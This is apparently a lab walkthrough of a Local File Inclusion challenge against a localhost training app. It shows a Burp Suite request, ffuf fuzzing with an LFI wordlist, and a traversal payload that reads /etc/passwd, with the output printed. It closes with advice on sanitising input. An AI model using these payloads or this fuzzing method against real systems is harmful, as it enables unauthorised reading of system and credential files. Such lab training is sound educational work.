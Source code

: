 
# 🛡️ File Inclusion 0x03 [Challenge] - Local File Inclusion Attack

---

## 📝 FYI: Understanding the Lab Process
[SecLists on GitHub](https://github.com/danielmiessler/SecLists/tree/master)

---

### 🕵️ Exploration vs. Instruction
The `/seclists/` directory contains critical text files for using the `ffuf` command effectively in the lab.  
The instructor encourages independent exploration, with minimal initial guidance, requiring manual steps such as:

1. Manipulating GET requests in Burp Suite for directory traversal.
2. Using `filename=FUZZ` to prepare for fuzzing.

---

### 🧩 Expected Autonomy in Learning
In the walkthrough, the instructor moves directly to fuzzing with `ffuf` targeting:
- **Directory:** `/usr/share/seclists/Fuzzing/LFI/`
- **Wordlist:** Files like `LFI-Jhaddix.txt`.

This hands-on approach emphasizes understanding and mastering the tools.

---

# 🕵️ Lab Setup and Initial Exploration

In this lab, we identify a Local File Inclusion (LFI) vulnerability. The initial GET request captured in Burp Suite:

```
GET /labs/api/fetchRecipe.php?filename=chocolate_cake.txt HTTP/1.1
Host: localhost
Referer: http://localhost/labs/fi0x03.php
...
```

---

## 🧪 Experimentation with Burp Repeater
1. Modify the `filename` parameter:  
   Replace `filename=chocolate_cake.txt` with `filename=FUZZ` to test potential vulnerabilities.
2. Save the request:  
   Use Burp Suite’s "Save as file" feature (`api-req-lab.txt`).

---

## 🔨 Using `ffuf` for Fuzzing

### Command:
```bash
ffuf -request api-req-lab.txt -request-proto http -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt
```

### Directory:
- `/usr/share/seclists/Fuzzing/LFI/`

### Wordlist:
- `LFI-Jhaddix.txt`

---

### 🔧 Refining the Fuzzing Process
Filter out irrelevant responses:
```bash
ffuf -request api-req-lab.txt -request-proto http -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -fw 19,20
```

---

### 🎯 Identifying and Exploiting the Vulnerability
**Successful Response from `ffuf`:**
```
....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 922, Words: 6, Lines: 20, Duration: 9ms]
```

Modify the request to specifically target this path:
```
GET /labs/api/fetchRecipe.php?filename=...//....//....//....//....//....//....//....//....//....//....//etc/passwd HTTP/1.1
Host: localhost
...
```

---

# 📄 Successful Exploitation
The response contains the contents of the `/etc/passwd` file, confirming the LFI vulnerability:
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
```

---

# 🏁 Conclusion
This lab highlights the critical importance of:
1. **Sanitizing User Inputs:** Prevent directory traversal and file inclusion.
2. **Monitoring for Exploitation:** Regularly review application logs for suspicious activity.

Successfully exploiting this vulnerability demonstrates the risks associated with improper input handling in web applications.
